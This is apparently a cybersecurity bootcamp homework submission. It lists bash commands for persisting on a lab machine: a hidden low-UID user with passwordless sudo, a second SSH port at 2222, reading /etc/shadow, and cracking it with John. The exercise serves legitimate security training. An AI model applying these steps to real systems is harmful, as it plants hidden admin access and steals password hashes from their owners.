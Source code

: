 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

4. Give your secret user the same GID:
   - `sudo adduser --no-create-home -uid 111 -gid 111 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  ```bash
      sudo visudo
      
      sysd    ALL=(ALL:ALL) NOPASSWD: ALL
      ```   

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    sudo less /etc/shadow
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    sudo nano /etc/ssh/sshd_config
    
    Port 2222
    Port 22
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su root`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

